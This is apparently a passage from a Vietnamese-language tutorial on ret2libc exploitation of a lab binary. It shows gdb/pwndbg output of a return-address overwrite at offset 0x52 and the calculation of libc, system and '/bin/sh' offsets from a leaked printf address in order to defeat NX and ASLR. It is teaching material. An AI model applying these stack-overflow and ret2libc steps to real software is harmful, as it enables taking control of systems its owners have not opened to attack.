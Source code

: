 ```nasm
0x08048536 <+128>:	add    esp,0x10
0x08048539 <+131>:	nop
0x0804853a <+132>:	lea    esp,[ebp-0xc]
0x0804853d <+135>:	pop    ebx
0x0804853e <+136>:	pop    esi
0x0804853f <+137>:	pop    edi
0x08048540 <+138>:	pop    ebp
0x08048541 <+139>:	ret    
```
bắt đầu send thử padding 
```nasm
   0x804853a <vuln+132>    lea    esp, [ebp - 0xc]
   0x804853d <vuln+135>    pop    ebx
   0x804853e <vuln+136>    pop    esi
   0x804853f <vuln+137>    pop    edi
   0x8048540 <vuln+138>    pop    ebp
 ► 0x8048541 <vuln+139>    ret    <0x61616161>
```
như vậy theo box của mình thì được pad với offset là 0x52. kế tiếp chính là tìm địa chỉ của system và cuối cùng là địa chỉ chứa chuỗi '/bin/sh'

-	ta có địa chỉ printf được leak là: `0xf7e2a3a0`, như vậy để tìm được địa chỉ system thì trước tiên ta phải tìm được địa chỉ libc
	-	để tìm được địa chỉ libc ta có thể dùng rất nhiều cách, nhưng trong bài viết này sẽ dùng gdb để tìm offset
		-	dùng lên vmmap để lấy địa chỉ libc: `0xf7dd9000`
	-	như vậy offset để tính ra libc là: 0xf7e2a3a0(printf) - 0xf7dd9000(libc) = 0x513a0
	-	địa chỉ của system cũng tương tự: 0xf7e16250(system) -  0xf7dd9000(libc) = 0x3d250

**NOTE**: tại sao lại phải tìm offset? bởi vì trên linux, còn có ASLR(link) nên ta không thể dùng libc lấy từ gdb để dùng được. Vì vậy với ret2libc ta có thể bypass được cả DEP(NX), ASLR nếu ta có thể leak được địa chỉ
```nasm
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/xfeebe/research/basic-exploit/ret2libc/ret2libc
 0x8049000  0x804a000 r--p     1000 0      /home/xfeebe/research/basic-exploit/ret2libc/ret2libc
 0x804a000  0x804b000 rw-p     1000 1000   /home/xfeebe/research/basic-exploit/ret2libc/ret2libc
 0x804b000  0x806d000 rw-p    22000 0      [heap]
0xf7dd9000 0xf7fae000 r-xp   1d5000 0      /lib/i386-linux-gnu/libc-2.27.so
0xf7fae000 0xf7faf000 ---p     1000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7faf000 0xf7fb1000 r--p     2000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb1000 0xf7fb2000 rw-p     1000 1d7000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb2000 0xf7fb5000 rw-p     3000 0      
0xf7fb5000 0xf7fb8000 r-xp     3000 0      /lib/i386-linux-gnu/libdl-2.27.so
0xf7fb8000 0xf7fb9000 r--p     1000 2000   /lib/i386-linux-gnu/libdl-2.27.so
0xf7fb9000 0xf7fba000 rw-p     1000 3000   /lib/i386-linux-gnu/libdl-2.27.so
0xf7fd0000 0xf7fd2000 rw-p     2000 0      
0xf7fd2000 0xf7fd5000 r--p     3000 0      [vvar]
0xf7fd5000 0xf7fd6000 r-xp     1000 0      [vdso]
0xf7fd6000 0xf7ffc000 r-xp    26000 0      /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 r--p     1000 25000  /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 rw-p     1000 26000  /lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 rw-p    21000 0      [stack]
pwndbg> x system
0xf7e16250 <__libc_system>:	0x8b0cec83
pwndbg> x printf
0xf7e2a3a0 <__printf>:	0x0e6234e8
```
còn lại là địa chỉ chứa chuỗi /bin/sh, ta có thể dùng lệnh sau để tìm địa chỉ đó
0xf7f573cf(/bin/sh) - 0xf7dd9000(libc) = 0x17e3cf
```nasm
pwndbg> find 0xf7dd9000, 0xf7fb2000, "/bin/sh"
0xf7f573cf
1 pattern found.
```